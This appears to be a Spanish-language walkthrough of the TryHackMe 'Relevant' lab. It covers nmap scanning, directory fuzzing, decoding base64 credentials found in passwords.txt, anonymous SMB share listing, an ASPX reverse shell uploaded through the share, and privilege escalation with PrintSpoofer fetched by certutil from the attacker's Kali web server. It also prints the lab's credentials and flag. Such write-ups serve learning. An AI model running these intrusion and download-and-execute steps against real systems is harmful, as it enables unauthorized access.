

# Relevant (thm)

Empezamos con un scaneo de todos los puertos con 

```nmap -p- --min-rate=1000 -T4 <IP>```


Ahora vamos a hacer un escaneo más profundo en esos puertos

```bash
nmap -sV -A -T4 <IP> -p <Puertos>
```


Podemos ver que hay:

- Servidor http en puerto 80
- Microsoft RPC en puerto 135
- netbios-ssn puerto 445
- ms-wbt-server puerto 3389
- Servidor http en 49663
- msrpc 49668
- Tiene samba


Empezamos con las dos servidores web


**Puerto 80**

Parece que no tiene nada tan soloo un enlace


 Tampoco tiene directorios parece.


**Puerto 49663**

En principio parece la misma página 


Haciendo varios fuzeos he encontrado unos directorios pero no he encontrado nada en ellos 


Voy a probar con un diccionario más grande en la raiz de la url a ver


Se puede ver un nuevo direcotrio que sea `nt4wrksv`


Haciendo fuzeo a ese directorio se puede ver que hay un archivo passwords.txt


Parece que la primera es un base64 ya que tiene dos iguales (==) al final. Son los dos base64


Sacamos que 


```
Bob - !P@$$W0rD!123

Bill - Juw4nnaM4n420696969!$$$ 
```

**Samba**

Vamos a usar este comando para ver qué recursos compartidos están disponibles:

```bash
smbclient -L //10.10.100.207 -N
```


Ahora nos conectamos al recurso que hemos visto y haciendo un `ls` hay un passwords.txt


Haciendo un more password.txt es la única forma de leerlo, se puede ver que es el mismo archivo que la pagina web y creo que podemos hacer una reverseshell ahi


Se pueden acceder con los dos usuarios


Ahora voy a probar a crear un nuevo archivo a ver si se refleja en la web para poder intenetar hacer una reverse shell


Ahora despues de buscar en payloadallthethings la reverse shell de tcp por windows


No ha funcionado eso pero he buscado en otra pagina y puede funcionar una de aspx


Ninguna funciona pero le he preguntado a perplexity y me ha dado esta que si funciona


Luego buscamos en el navegador el archivo



Y con el netcat abierto sale la terminal ya


Aqui tenemos la primera flag 


THM{fdk4ka34vk346ksxfr21tg789ktf45}


Vamos a descargar PrintSpoofer.exe


Lo metemos en samba


Levantamos en esa carpeta una web con python = python3 -m http.server 80

Luego usamos esto 

`certutil -urlcache -f http://<IP_Kali>/PrintSpoofer64.exe printspoofer.exe`

Y ejecutamos en la termninal `PrintSpoofer64.exe -i -c cmd` y nos hacemos root


La flag esta en `C:\Users\Administrator\Desktop\root.txt`

